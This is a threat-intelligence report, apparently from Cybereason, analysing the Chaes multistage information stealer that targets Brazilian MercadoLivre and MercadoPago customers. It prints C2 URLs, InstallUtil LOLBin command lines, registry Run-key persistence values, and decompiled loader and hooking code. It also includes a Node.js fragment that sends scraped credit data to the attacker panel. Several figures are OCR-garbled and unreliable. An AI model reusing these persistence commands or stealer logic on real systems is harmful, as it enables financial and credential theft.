

# CHAES: Novel Malware Targeting Latin American E-Commerce


The Cybereason Nocturnus Team has been tracking a threat actor leveraging previously undetected malware dubbed "Chaes" to target e-commerce customers in Latin America (LATAM). Chaes malware, which was first discovered in the middle to late 2020 by Cybereason, is a multistage information stealer that primarily targets Brazil and specifically the Brazilian customers of the largest e-commerce company in Latin America, MercadoLivre.

In recent years, the LATAM cybercrime scene has evolved a great deal. Some of the most notorious malware variants that have been prominent in the region over the last year include Grandoreiro, Ursa and Astaroth. LATAM cybercrime activities demonstrate unique features when it comes to TTP's and how malware is propagated on an infected machine. Some of the shared similarities include:

- Leveraging of .MSI files as an initial way to start the infection chain
- The use of Delphi as the preferred language to write malware
- Extensive use of LOLBins to execute content
- Downloading additional legitimate tools to expand the malware's capabilities and for obfuscation

When observing the shared behavior and mindset of LATAM-based threat actors, Cybereason researchers observed that the malware authors emphasize the need to stay under the radar as much as possible, and prefer to use already-existing tools or legitimate software if it fits their needs.


# Key Findings

- Targeting the Biggest E-Commerce Company in Latin America: Chaes specifically targets the Brazilian website of e-commerce company MercadoLivre and its payment page MercadoPago to steal its customers' financial information. The final payload of Chaes is a Node.Is information stealer that exfiltrates data using the node process.
- Credential Stealing, Screen Capture, Browser Monitoring, Reconnaissance: Chaes is designed to steal sensitive information from the browser such as login credentials, credit card numbers, and other financial information from MercadoLivre website customers. Chaes also takes screenshots of the infected machine, hooks and monitors the Chrome web browser to collect user information from infected hosts.
- Multistage Delivery, Multi-Language Malware: Chaes delivery consists of several stages that include use of LoLbins and other legitimate software, making it very challenging to detect by traditional AV products. Chaes also has multiple stages and is written in several programming languages including Javascript, Vbscript, .NET , Delphi and Node.js
- Downloads Legitimate Software, Designed for Stealth: Chaes operates using legitimate tools such as Python, Unrar and Node.js, and Chaes' stages consist of several techniques such as use of LoLbins, open source tools, fileless parts and legitimate node.js libraries designed to increase the malware's stealthiness.
- Under development: Cybereason observed new versions of Chaes, showing that the authors are improving the malware and adding more features


## Threat Analysis

#### Phase One: Initial Access


As with many traditional campaigns, this one begins by sending the victim a phishing email containing a .docx file.


#### Template Injection Attacks


After the user clicks the .docx file, a Template Injection Attack occurs. In this technique the adversary is using Microsoft Word's built-in feature to fetch a payload from a remote server, by changing the template target of the settings.xml file embedded in the document and populating this field with a download URL of the next payload:

| FIGURE 5 |  |  |
| --- | --- | --- |
| Template injection attack |  |  |
| E settings.xml.rels - Notepad |  |  |
| Edit Format View Help |  |  |
| version="1.0" encoding="UTF-8" standalone="yes"?> |  |  |
| ationships s=" |  |  |
| ttp://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedT |  |  |
| ate"  Target=" tMode="External" /></Relationships> |  |  |
| FIGURE 6 |  |  |
| Winword communicating with the C2 |  |  |
| WINWORD.EXE evolved-thief.online TCP:Flags = ... A ... , SrcPort=HTTP(80), DstPort=1264, Payl | TCP |  |
| WINWORD.EXE evolved-thief.online | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: /word/tpl/ |
| WINWORD.EXE evolved-thief.online | HTTP | HTTP:Request, HEAD /word/tpl/, Query:template=anexo |
| WINWORD.EXE evolved-thief.online | ТСР | TCP:Flags =... A ... , SrcPort=HTTP(80), DstPort=1264, Payl |
| WINWORD.EXE evolved-thief.online | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: /word/tpl/ |
| WINWORD.EXE evolved-thief.online | HTTP | HTTP:Request, OPTIONS /word/ |
| WINWORD.EXE evolved-thief.online | TCP | TCP:Flags =... A ... , SrcPort=HTTP(80), DstPort=1264, Payl |
| WINWORD.EXE evolved-thief.online HTTP:Response, HTTP/1.1, Status: Ok, URL: /word/ | HTTP |  |


Once the .msi file is executed, it drops the following files:

- Invisible.vbs: which the malware uses to execute other processes that will take part in the malware's framework
- Uninstall.dll: and engine.bin which constitutes the "malware engine"
- Hhc.exe, hha.dll and chaes1.bin: which together constitute the malware's core components

The .msi file then spawns a Wscript child process using "invisible.vbs" to initiate the execution of the engine. bin content using the LOLBin InstallUtil. It also executes a process named "hhc.exe" which is a legitimate HTML Help (CHM) Help Compiler process. The initial activity can be also seen in detail using the Cybereason Defense Platform:


#### Setting Up the "Malware Engine" and Initial Persistence

As mentioned above, the pair of file binaries uninstall.dll and engine.bin serve as the "malware engine" whose key objective is to download additional content and maintain its foothold on the infected machine. Uninstall.dll is a .NET based module that receives an AES encrypted binary file as an argument and decrypts it:


FIGURE 8

In the first iteration of the malware, Uninstall.dll decrypts the engine.bin file which triggers additional download of a file named "Install.js":

| FIGURE 9 |
| --- |
| InstallUtil download install.js |
| exe /u C : \Users\ \Desktop\anexodoc\5352710811713536\uninstall.bin\uninstal |
| 1.dll /f=C:\Users\ (Desktop\engine.bin\engine.bin |
| Microsoft (R) .NET Framework Installation utility Uersion 2.0.50727.5420 |
| Copyright (c) Microsoft Corporation. All rights reserved. |
| The uninstall is beginning. |
| See the contents of the log file for the C : \Users\Malware\Desktop\anexodoc\53527 |
| 10811713536\uninstall.bin\uninstall.dll assembly's progress. |
| The file is located at C:\Users' Desktop\anexodoc\5352710811713536\uninst |
| all bin\uninstall . InstallLog. |
| Uninstalling assembly 'C:\Users\ \Desktop\anexodoc\5352710811713536\uninst |
| all bin\uninstall.dll . |
| Affected parameters are: |
| assemblypath = C:\Users\ \Desktop\anexodoc\5352710811713536\uninstall.b |
| in\uninstall.dll |
| logfile = C:\Users\. \Desktop\anexodoc\5352710811713536\uninstall.bin\un |
| install . InstallLog |
| logtoconsole = |
| evalUrl -> |
| eualUrl -> SyntaxError: Expected expression |
| evalUrl -> |
| evalUrl -> |

Install.js is a downloader that further downloads binary payloads and counters for them:


The full list of files that install.js attempts to download include:

#### TABLE 1

| Install.js list of domains |
| --- |

| OBSERVED URL | PURPOSE |
| --- | --- |
| hxxp://cnxtours.com[.]br/ZGkPJCwzO/counter.php | Generic counter |
| hxxp://cnxtours.com[.]br/2GkPJCwz2/counter.php | Javascript file counter |
| hxxp://java-update[.]online/Bv3wsrFB0t/counter.php | USB file counter |
| hxxp://evolved-thief[.]online/pacotes/chaes2.bin | Malware component |
| hxxp://evolved-thief[.]online/pacotes/elektra1.bin | Malware component |
| hxxp://evolved-thief[.]online/pacotes/bom8.bin | Observed downloading coinminer |

The following image shows InstallUtil processes downloading files from the C2 server:

#### FIGURE 11

InstallUtil downloading additional content

| Process Name Source |  | Destination | Protocol Name Description |  |
| --- | --- | --- | --- | --- |
| InstallUtil.exe | evolved-thief.online |  | HTTP | HTTP:HTTP Payload, URL: /pacotes/update_chaes/chaes1.bin |
| InstallUtil.exe | evolved-thief.online |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: /tarefas/install.js |
| InstallUtil.exe | evolved-thief.online |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: /pacotes/chaes6.bin |
| InstallUtil.exe | evolved-thief.online |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: /pacotes/hfix.bin |

After the files have been downloaded, they are automatically executed by several chains of processes that include Wscript, Cmd and eventually InstallUtil to decrypt the files in the same way it decrypted engine.bin.

The files themselves are the artifacts mentioned above - chaes1.bin, hha.dll and hhc.exe.


Interestingly, although the code to download the binaries is in "Install. js" but there is no indication of script usage. all the activities are done by InstallUtil, which makes this script execution technique very unorthodox and much more challenging to find:

Although it has some benefits when it comes to executing javascript code using InstallUtil as a proxy and additional persistence, in some recent observations of Chaes the malware authors have decided to drop this stage in the malware deployment.

#### FIGURE 12 The Cybereason Defense Platform shows the full

command lines of InstallUtil

### C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=engine.bin C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=chaes4.bin C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=chaes5.bin Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=chaes2.bin Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=bom200.bin \Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=chaes3.bin C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=elektra1.bin \Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /u uninstall.dll /f=chaes6.bin

Next, the malware creates its first means of persistence using the registry entry CurrentVersion\run\Installutil\ to execute new instances of engine.bin repeatedly. Some of the .bin files such as "elektra1.bin" also contain the hhc. exe process and associated malicious files, so as long the engine's persistence is maintained, the malware does not need to rely on the .msi file to exist.

#### Registry Key:

Software\Microsoft\Windows\CurrentVersion\Run\installutil\

#### Value:

wscript.exe "C:\Users\[username]\AppData\Roaming\invisible.vbs" cmd /c cd "C:\Users\[username]\AppData\ Roaming\Microsoft\Network" & "C:Windows\Microsoft.NET\Framework\v2.0.50727\nstallUtil.exe" /u "uninstall.dll" "/ f=engine.bin"


#### Phase Two: Chaes Modules and Malware Deployment


Three files that were brought to the machine by the .msi file are hhc.exe, hha.dll and chaes1.bin. As already mentioned, the file hhc.exe belongs to the HTML Help (CHM) Help Compiler and is often used to create CHM files. This process requires the module named "hha.dll" to run.

The legitimate hha.dl is a 32-bit Windows DLL module developed by Microsoft Corporation for the HTML Help software and other related programs.

In this case, the attackers delivered to the machine their own crafted hha.dll module (unsigned), and took advantage of the DLL search order to load this module into the legitimate hhc.exe process. In this way, the attackers manage to execute malicious code in the context of a legitimate process without using any injections.

This technique was already observed in the past in previous research done by Cybereason about financial malware across the Brazilian cybercrime landscape:

|  |  | Malicious hha.dll (left) and legitimate hha.dll (right) |  | FIGURE 14 |
| --- | --- | --- | --- | --- |
| hha.dll Properties |  | × a hha.dll Properties |  | × |
| General Security | Details Previous Versions |  | General Security | Details Previous Versions |
| Property | Value |  | Property | Value |
| Description |  |  | Description |  |
| File description hha |  |  | File description | Microsoft® HTML Help Author |
| Type | Application extension |  | Type | Application extension |
| File version | 1.0.0.0 |  | File version | 4.74.8702.0 |
| Product name hha |  |  | Product name | HTML Help |
| Product version 1.0.0.0 |  |  | Product version | 4.74.8702 |
| Copyright |  |  | Copyright | Copyright @ Microsoft Corp. |
| Size | 143 KB |  | Size | 818 KB |
| Date modified | 22/08/2020 20:46 | 03/12/1999 06:25 | Date modified |  |
| Language | English (United States) |  | Language Original filename HHA.dll | English (United States) |


The existence of the module and its identification as malicious can be seen clearly in the Cybereason Defense Platform:



#### hha.dll Analysis

When investigating the module, it is clear that it has nothing in common with the legitimate Windows hha.dll module. The module's main goal is to decode and unpack the downloaded content from chaes1.bin and load it into memory.

The module begins by getting a handle to the chaes1.bin file with read permissions using the CreateFileW function. It then retrieves the size of the file and allocates new memory accordingly:

```
FIGURE 16
                           Getting a handle to chaes1.bin
v0 = CreateFileW(L"chaes1.bin", 0x80000000, 3u, 0, 3u, 0, 0);
v1 = v0:
if ( v0 != (HANDLE)-1 )
-
  dwSize = GetFileSize(v0, 0);
 if ( dwSize )
 -
   v2 = VirtualAlloc_0(0, dwSize, 0x3000u, 4u);
```


After getting the handle for chaes1.bin and allocating memory, the module attempts to read the content of the file. If it succeeds in doing so, it sends the newly allocated memory of chaes1.bin and additional obfuscated embedded content to another function that deals with unpacking and deobfuscation chaes1.bin.

After the routine ends, it produces a new module loaded in memory named "chaes.dl" (also written in Delphi) which contains the contents of the decoded chaes1.bin:

| FIGURE 17 |  |  |  |
| --- | --- | --- | --- |
| Decoding function before (left) and after (right) |  |  |  |
| test edi,edi |  | test edi,edi |  |
| ib hha. 43B41B |  | ib hha. 43B41B |  |
| inc edi |  | inc edi |  |
| xor ecx,ecx |  | xor ecx,ecx |  |
| mov eax,ecx |  |  | mov eax,ecx |
| xor edx,edx |  | xor edx,edx |  |
| div dword ptr ss:[ebp-c] |  |  | div dword ptr ss:[ebp-C] |
| mov esi,edx |  |  | mov esi,edx |
| mov eax,ecx |  |  | mov eax,ecx |
| push ecx |  |  | push ecx |
| mov ecx,3 |  |  | mov ecx, 3 |
| xor edx,edx |  |  | xor edx,edx |
| div ecx |  |  | div ecx |
| pop ecx |  |  | DOD ecx |
| test |  | edx, edx | test edx,edx |
| ine hha. 43B3F2 |  |  | ine hha. 43B3F2 |
| mov eax,ecx |  |  |  |
| mov eax,ecx |  | not al | not al |
| mov edx, dword ptr ss : [eb] |  |  |  |
| mov edx, dword ptr ss: [ebp-4] |  | add edx,ecx |  |
| add edx,ecx |  | xor al , byte ptr ds : [edx] |  |
| xor al , byte ptr ds : [edx] |  | mov edx,ebx |  |
| mov edx.ebx |  | add edx,ecx |  |
| add edx,ecx |  |  |  |
| mov byte ptr ds:[edx],al |  |  |  |
| mov byte ptr ds:[edx],a1 |  | imp hha.438409 |  |
| movzx eax, byte ptr ss : [e] |  |  |  |
| movzx eax, byte ptr ss:[ebp-C] |  | mov edx,esi |  |
| mov edx,esi |  | sub al , d1 |  |
| sub al,d1 |  | not al |  |
| not al |  | mov edx, dword ptr ss : [eb] |  |
| mov edx, dword ptr ss: [ebp-4] |  | add edx,ecx |  |
| xor al , byte ptr ds : [edx] |  |  | add edx,ecx |
| mov edx,ebx |  |  | xor al , byte ptr ds : [edx] |
| add edx,ecx |  |  | mov edx,ebx |
| mov byte ptr ds:[edx],a] add esi,dword ptr ss:[eb] |  |  | add edx,ecx |
| mov byte ptr ds: [edx],a] |  |  |  |
| movzx eax, byte ptr ds : e | add esi, dword ptr ss: [ebp- |  |  |
| not al | movzx eax, byte ptr ds : [esi] |  |  |
| mov edx,ebx |  |  |  |
| not al |  | add edx,ecx |  |
| mov edx,ebx |  |  |  |
| xor byte ptr ds : [edx],al |  |  | add edx,ecx |
| inc ecx |  |  |  |
| xor byte ptr ds : [edx], al |  | dec edi |  |
| inc ecx |  | ine hha. 43B3C5 |  |
| dec edi |  | mov |  |
| eax,ebx |  |  | ine hha. 43B3C5 |
| edi |  | pop |  |
| mov eax,ebx |  | DOD est |  |
| pop edi |  |  |  |
| DOD est |  |  |  |
| 14 |  | Dump 5 @ Watch |  |
| I | Watch 1 | ASCTT | ব Dump 5 |
| FF OO OO MZP |  | FF |  |
| ASCIT |  | 00 00 00 00 |  |
| 00 00 00 | MZ | 00 | 00 00 00 00 |
| 00 01 00 00 |  | · : CD 21 90 90 | 00 00 00 00 00 00 00 00 |
| .. |  |  |  |
| 75 73 |  | 20 6D | 00 00 00 00 |
| 72 20 57 |  | 65 t be run unde | 00 00 00 00 |
| 00 00 00 00 |  | in32 . . $7 | 00 00 00 00 |
| 00 |  | 00 00 00 | 00 00 00 00 |
| CO 00 00 CD |  |  |  |


The presence of this new dll file now found in the memory of hhc.exe can also be seen in the Cybereason Defense Platform, along with another module named chcopyd1.dll:

| FIGURE 18 Decoded and fileless chase.dll in the |
| --- |
| memory of hhc.exe |
| M 80 loaded modules |
| FLOATING |
| chcopyd1.dll {FLOATING} |
| chaes.dll {FLOATING} |
| {FLOATING} |
| ew all elements |

#### chaes.dll Analysis

When the researchers first inspect chase.dll using Pestudio, it was immediately observed that this module has an executable named "UNRAR" stored in its resources section. UNRAR is a free and open source command-line application for extracting RAR file archives which adversaries use to extract additional content sent from the C2 server as archived files:

|  |  |  | Chaes.dll UNRAR in resource section | FIGURE 19 |
| --- | --- | --- | --- | --- |
| - a resources (executable) | string-table | 4094 | 0x00138744 | string-table |
| abc strings (size) | string-table | 4095 | 0x00138AC0 | string-table |
| -xx debug (n/a) | string-table | 4096 | 0x00138D9C | string-table |
| manifest (n/a) |  |  |  |  |
| 1.0 version (n/a) | rcdata | DVCLAL | 0x001390A4 | Delphi-Config |
|  |  | PACKAGEINFO | 0x001390B4 | Delphi-Config |
| certificate (n/a) | rcdata |  |  |  |
| overlay (unknown) | rcdata | PI ATFORMTA | 0x001395F0 | unknown |
|  | rcdata | UNRAR | 0x001395F4 | executable |


As expected, chaes.dll loads this executable from its binary and assigns it with 0x40 permissions which is the hexadecimal value of the symbolic constant name READ-WRITE-EXECUTE.

UNRAR is not the only file that the malware drops- chaes.dll also drops invisible.vbs, config.ini and instructions.ini:

#### TABLE 2

File names dropped by chaes.dll

| FILE NAME | SHA-1Hash |
| --- | --- |
| config.ini | bf3174b0151ff6c1b57398f37c9f381bb2b66a6c |
| instructions.ini | 84f38bf9df9a0153050b371033afc0d8191763bf |
| unrar.exe | 6411159bbf02b44caee6b42390bf866d46aed0e4 |
| invisible.vbs | 2182243567bfcefcbc88b4ebcc42ed52e1dd1e69 |
| hxxp://evolved-thief[.]online/pacotes/bom8.bin | Observed downloading coinminer |

#### Config.ini and Instructions.ini

#### FIGURE 20 config.ini

FIGURE 21 instructions.ini

As inferred from its name, config.ini stores the configuration for the C2:

### thief.online/aws

Instructions.ini stores the instructions to be sent to the C2 server to download the additional content and to deploy the full malware. Like many other commands in this malware, some of them will be executed using the invisible.vbs file:


The additional files obtained from the C2 server are:

- chstea01.rar this file contains the hhc.exe process, the malicious hha.dll, chaes1.bin and sqlite3.dll (the first hint that SQL will be used by the malware).
- fixi2.rar and usb3.rar these files contain the hhc.exe process, hha.dll and chaes1.bin.
- spm4.rɑr this archive contains Python-related files and a large binary file named "load.bin".

After the archived files are downloaded, pythonw.exe uses UNRAR to extract and execute their content:


In recent versions of Chaes, instructions.ini file turned fileless and is stored in the registry:

|  |  |  |  |  |  | Instructions.ini data fileless in the registry |
| --- | --- | --- | --- | --- | --- | --- |
| File Edit View | Favorites | Help |  |  |  |  |
|  |  |  | Name | Type | Data |  |
|  |  |  | D (Detault) | REG_SZ | (value not set) |  |
|  |  |  | ab Command | REG_SZ | hhc.exe |  |
|  |  | usb3 | ab Execution | REG_SZ | restart |  |
|  |  |  | ab FirstInstal | REG_SZ |  |  |
|  |  | Internet Settings | ab LastInstal | REG_SZ |  |  |
|  |  | MCT | Name | REG_SZ | chstea01 |  |
|  |  | NetCache | ab Password | REG_SZ | luciferlives |  |
|  |  | Policies | ab Path | REG_SZ | C:\Users\ | AppData\Roaming\Microsoft\Extensions\chstea01\ |

FIGURE 23


#### Chaes Communication with the C2

The communication between chase.dl/ and its C2 server is made up of three repetitive post and requests calls:

- NewClient: provides the C2 with information from the victim's machine (machine name, user name, uid, operating system version and malware version).
- Instructions: sends and receives content that was base64-encoded and then encrypted.
- Config: which is also encoded and encrypted.

|  |  |  |  | FIGURE 24 Chaes communicates with the C2 |
| --- | --- | --- | --- | --- |
| Process Name Source |  | Destination | Protocol Name Description |  |
| hhc.exe |  | awsgold.xyz | HTTP | HTTP:Request, POST /aws/newClient.php |
| hhc.exe | awsgold.xyz |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: Vaws/newClient.php |
| hhc.exe |  | awsgold.xyz | HTTP | HTTP: Request, POST /aws/instructions |
| hhc.exe | awsgold.xyz |  | HTTP | HTTP: Response, HTTP/1.1, Status: Ok, URL: Vaws/instructions |
| hhc.exe |  | upload-jupiter2020.dd ... | HILLE | HTTP:Request, POST /config |
| hhc.exe | upload-jupiter20 ... |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL /config |

| FIGURE 25 Chaes "NewClient.php" communication |
| --- |
| POST /aws/newClient.php HTTP/1.1.. Accept: * /* .. Content-Type: |
| application/x-www-form-urlencoded..User-Agent: Mozilla/5.0 (Windows NT |
| 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) |
| Chrome/84.0.4147.105 Safari/537.36..Host: |
| evolved-thief.online. . Content-Length: 71. . Cache-Control: |
| no-cache uid=B855E7B6 &pyv=CHAES.01&wos=498139398&cna= |
| Lina- |

#### Stealing Information from the Browser

In addition, the hhc.exe process creates several .sql files named local.sql, these SQL databases are being used in order to extract sensitive information from the Chrome browser similar to other traditional information stealers, some of the SQL tables are related to credit cards, login credentials of websites and personal information of a user:

> FIGURE 26 Credit card related database to extract information from the browser

CREATE TABLE credit cards ( guid VARCHAR PRIMARY KEY, name on card VARCHAR, expiration month INTEGER, expiration year INTEGER, card number encrypted BLOB, date modified INTEGER NOT NULL DEFAUL in VARCHAR DEFAULT '', use count INTEGER NOT NULL DI ate INTEGER NOT NULL DEFAULT 0, billing address VARCHAR) indexautofill name value loweraut autofill name value lower ON autofill (nam


#### Additional Persistence

In addition to the downloading and executing content, the malware will set another persistence using the registry, one in the software\microsoft\windows\currentversion\run\microsoft windows html help v6.1.2390

And and second in software\microsoft\windows\currentversion\run\microsoft windows html help:

#### Registry key:

Software\MicrosoftWindows\CurrentVersion\Run\Microsoft Windows html help v6.1.2390\

#### Value:

Wscript "C\ProgramData\invisible.vbs" cmd /V:ON /C cd "%APPDATA%Microsoft\HTML Help v6.2.1533\" & wscript. exe %PROGRAMDATA%\invisible.vbs "hhc.exe"

#### Registry key:

Software\Microsoft\Windows\CurrentVersion\Run\Microsoft Windows html help\

#### Value:

Wscript "C\ProgramData\invisible.vbs" cmd N:ON /C cd "C\Users\[username]\APPDATA\Roaming\\Microsoft\HTML Help v6.2.1533\" & wscript.exe C:\PROGRAMDATA\invisible.vbs "hhc.exe"

#### Second Stage Deployment via Python

Once Chaes finishes downloading the additional content and establishing its persistence, the additional content activity starts to initiate the second stage of the malware deployment. First, pythonw.exe injects a module named "ModHooksCreateWindow64.dll" into a newly created Chrome process.

This Chrome browser is a browser that opens silently in the background and without the user knowledge or consent about its existence. This can be seen also using the Cybereason platform:

| Deployment of the malware by pythonw.exe | FIGURE 27 |
| --- | --- |
| wscript.exe "C:\Users\ AppData\Roaming\Mi crosoft\HTML Help v6.2.1533\invisible.vbs" pythonw.exe |  |
| wscript.exe |  |
| pythonw.exe ( |  |
|  | cmd.exe ® |
| ModHooksCreateWindow64.dll {FLOATING} | chrome.exe (c |
|  | injected (pythonw ... |


#### ModHooksCreateWindow64.dll Analysis

When the team investigated the module, it was observed that its name indicates this module deals with classic API hooking techniques, this can be seen by the number of JMP codes that appears and with some strings that suggest about it also:

|  | FIGURE 28 |
| --- | --- |
|  | Setting up the hook JMP |
| loc 561440: |  |
| mov | rcx, cs:off 423B18 |
| mov | dl, 1 |
| lea | r8, aInvalidJmpType 0 ; "Invalid JMP Type for x64." |
| call | sub 437100 |
| mov | rcx, rax |
| call | sub 40E1C0 |
| mov | rcx, [rsp+48h+var 20] |
| mov | byte ptr [rcx], 66h |
| add | rcx, 1 |
| mov | [rsp+48h+var 20], rcx |
| mov | byte ptr [rcx], 0E9h |
| add | rcx, 1 |
| mov | rax, [rsp+48h+var 10] |
| mov | [rcx], ax |
| jmp | loc 5615ED |

When the researchers examined the module strings, it was observed that some of the strings and file names have an exact match with an open source project named DDetours, and especially two files named "DDetours.pas" and "InstDecode,pas". According to its github page: "The DDetours is a library allowing you to hook Delphi and Windows API functions. It provides an easy way to insert and remove hooks." The malware authors show again their creativity in attempts to stay under the radar when they are using legitimate open source software.

In addition to the DDetours code, the module also contains several strings that indicate hooking of the function ShowWindow and aim to specifically detect if the Chrome browser is active. This technique was also seen in the leaked code of the Carberp Botnet that aims to hook ShowWindow to detect the presence of Internet Explorer:

```
FIGURE 29
ShowWindow hooking and Chrome browser
                        L"Chrome WidgetWin 2") )
```
Overall, this module grants the malware the capability to perform any API hooking that it desires, and specifically aims to target the Chrome browser. Browser hooking is the hallmark feature of most financial malware. In the end, pythonw.exe will also download a JavaScript file named "index,js" which is a targeted information stealer written in Nodels:

#### FIGURE 30

Pythonw.exe downloading index.js infostealer

| Process Name Source |  | Destination | Protocol Name Description |  |
| --- | --- | --- | --- | --- |
| pythonw.exe |  | awsgold.xyz | HTTP | HTTP:Request, GET /spm/index.js, Query:p=1801821493 |
| pythonw.exe | awsgold.xyz |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: /spm/index.js |
| pythonw.exe | awsgold.xyz |  | HTTP | HTTP:HTTP Payload, URL: /spm/index.js |
| pythonw.exe | awsgold.xyz |  | HTTP | HTTP:HTTP Payload, URL: /spm/index.js |

#### Downloading the Node.js Component

After setting up the hooking of Chrome, pythonw.exe executes the final piece of the malware framework which is installing NodeJs in the infected machine in a location that contains the path "MicrosoftMedio\Oz". Node.js is an open-source, cross-platform, back-end |avaScript runtime environment that executes |avaScript code outside a web browser. This is another instance of legitimate software that this malware uses in order to operate and execute its malicious activity.

The node.exe process will be the last part of the puzzle, it will be responsible for reacting according to code written in "index.js" and sending the collected data from the infected machine to the C2. This can be seen also using the Cybereason UI:

When the full deployment of the malware is examined, it was observed that the deployment activity is divided into three pieces:

- Hhc.exe process will mainly act as the component that keeps the malware maintenance, persistence and downloader of the additional components.
- Pythonw.exe will be the process that deploys the downloaded content and executes it.


- And eventually, node.exe will be the process that receives the data according to "index.js" and send it to C2.
#### Phase Three: Targeted Node.js Malware

Index,js is a Node,is based information stealer that keeps being updated and evolved during the last months. To this date the last update was observed in the beginning of November 2020. The main goal of this script is to act as the main orchestrator of the Chaes's main goal.

#### Master of Puppets

When starting to investigate index.js, at first glance it was observed that the string "puppeteer-core". This is an indication that this script will be using the Node.js library "Puppeteer".

Puppeteer is a Node library which provides a high-level API to control Chrome or Chromium over the DevTools Protocol. Puppeteer runs headless by default, but can be configured to run full (non-headless) Chrome or Chromium.

In other words, the script has the ability to execute code that can interact with a remote C2 server with or without dependence on the Chrome browser being opened by a user.

The Puppeteer library is also known to be used for performing web scraping, the process of automating data collection from the web. The process typically deploys a "crawler" that automatically surfs the web and scrapes data from selected pages. Interestingly, we also notice the existence of the variable "mercado pago done". This is the first indication that this script will deal with information and data related to Mercado-Pago.

Mercado Pago is the payment platform for online sales of the company Mercado Livre, Mercado Livre, Inc. is an Argentine company incorporated in the United States that operates online marketplaces dedicated to e-commerce and online auctions. According to Wikipedia, Mercado Livre had over 174 million users in Latin America, making it the region's most popular e-commerce site by number of visitors:


In order to operate, the script will first attempt to connect to the newly created Chrome session, after which this chrome session actions will be dependable on the index,js script. Considering that the Chrome session is already monitored and hooked, it is apparent how deeply the malware has visibility into its activity.


In addition, the script contains other multiple functions that are related to communicating and controlling the newly created Chrome browser remotely.

#### Data Collecting Functions

One of the prominent functions that this info-stealer uses is printReport(). This function gets a web page URL and information to print as an argument, and then creates an image of this web page to be uploaded to the C2 server.

This function will be used whenever the info-stealer chooses to notify the C2 server about a specific activity. The uploading capabilities are created using another function called "fileUpload" that receives a URL, a message, and a filename to upload:


Another function is loadUID(), which as its name suggests, will locate the UID of the infected machine.

The UID consists of three parts - random letters, machine name and user name:


#### Accessing the Target

The first significant malicious activity performed by the script is to navigate the Chrome browser to mercadopago.com.br and then extract the infected machine's user financial information. The information extracted is stored in three variables named in Portuguese:

- Dinheiro_disponivel: which means "money available"
- Prefil: which means "profile"
- Atividades_item: which means "item activities"


As mentioned previously, Chaes is still under development. In a version that appeared in late 2020, the way to address Mercadopago page become more direct with an attempt to extract data from the following url:

"


The script will also attempt to navigate and scrape data from: "www.mercadolivre.com.br/credits/consumer/ administrator#menu-user", an online payment section of mercadolivre.com. As with the Mercadopago page, the script will attempt to read the data from this webpage as well, storing credit card data in two constant variables named "mcredito_selector" and "mcredito_available". Then, it will report its findings to the C2 server using the aforementioned printReport() function:

#### FIGURE 38

The Node.js malware collects financial information of mercado livre customers

| trv await page.goto(' |
| --- |
|  |
| waitUntil: 'load', timeout: 0 |
| }) |
| const mcredito selector = '.cl-info available-amount' |
| const mcredito available = await getInnerText (page, mcredito selector) |
| await printReport (page, 'MercadoCrédito Print', 'mercado credito' ) |
| if (typeof mcredito available != 'undefined') { |
| let uid = loadUID () |
| uid = uid ? uid : { uid: '' } |
| await httpPost ( ${painel url}/newMercadoCredito.php`, { |
| uid: uid.uid, |
| value: mcredito available |

As can be seen in the script, in each of the cases, whether its MercadoLivre or MercadoPago associated pages, the script will use the aforementioned function printReport() to create an image of the targeted webpage and eventually send the extracted data to the C2 server. The creation of these images can be seen using the Cybereason Defense Platform:

|  |  |  | FIGURE 39 |
| --- | --- | --- | --- |
| Grouped by |  |  |  |
| Element name |  | 0 / 0 · Event type |  |
| { node.exe c:\users\ | appdata\roaming\microsoft\media\oz\mercado_pago.png | 42 | FET_DELETE x21, FET_CREATE x21 |
| g node.exe c:\users\ | appdata\roaming\microsoft\media\oz\mercado_credito.png | 42 | FET_DELETE x21, FET_CREATE x21 |

After creating the screenshot, the information will be sent to the C2 server using the Multi-Purpose Internet Mail Extensions (MIME) protocol - an extension to the Internet email protocol that allows users to exchange different kinds of data files such as images, audio, and video. Note, in latest versions of index.js the entire communication of the node.exe process is encrypted:

| FIGURE 40 |
| --- |
| The Node.js malware sending a packet of information to the C2 server |
| POST /log/index.php HTTP/1.1. host: awsgold.xyz. . content-type: |
| multipart/form-data; |
| boundary= ------ 809116689282256122271874. . content-l |
| ength: 468178. Connection: |
| --- 809116689282256122271874. . Content close |
| -Disposition: form-data; |
| name="uid" . . . B855E7B6 -- 8091166 |
| 89282256122271874 . Content-Disposition: form-data; |
| name="log" ... MercadoPago |
| ----- 809116689282256122271874. . Content-D Print .. - |
| isposition: form-data; name="attachment"; |
| filename="print mercado pago debug.png". Content-Type: image/png |


